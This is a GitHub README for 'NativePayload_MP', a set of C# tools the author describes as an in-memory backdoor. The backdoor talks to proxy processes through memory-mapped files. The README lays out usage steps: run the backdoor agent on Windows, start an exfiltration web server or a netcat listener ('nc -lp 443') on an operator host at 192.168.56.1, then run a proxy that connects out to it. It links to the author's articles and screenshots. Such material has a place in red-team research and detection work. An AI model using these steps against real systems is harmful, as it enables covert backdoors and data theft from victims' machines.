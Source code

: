 # NativePayload_MP
C# Memory Mapped File & Connection in-memory between Backdoor & Proxy Process
-------------------------


 NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
    step2: NativePayload_MP.exe
    
--------------------------------------------    


 NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.sh as web Exfil-server tool) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] NativePayload_HTTP.sh -exfilwebserver 80
    step3: [win]                NativePayload_MP1.exe 192.168.56.1 
    
 --------------------------------------------    
   

NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] nc -lp 443
    step3: [win]                NativePayload_MP2.exe 192.168.56.1 443
--------------------------------------------    
    
NativePayload_MPAgent.cs (this code is our backdoor tool, working in memory only, without network connection) 
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
   
---------------------------------------------    
    
Article [1]: https://www.linkedin.com/pulse/memory-mapping-file-connection-in-memory-between-damon-mohammadbagher/

Article [2]: https://damonmohammadbagher.github.io/Posts/10mar2021x.html

Video:

------------------------------------------------
NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.sh as web Exfil-server tool) 
 
![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/1.png)

------------------------------------------------
NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/2-W10.png)

------------------------------------------------
NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/mp2-01.png)


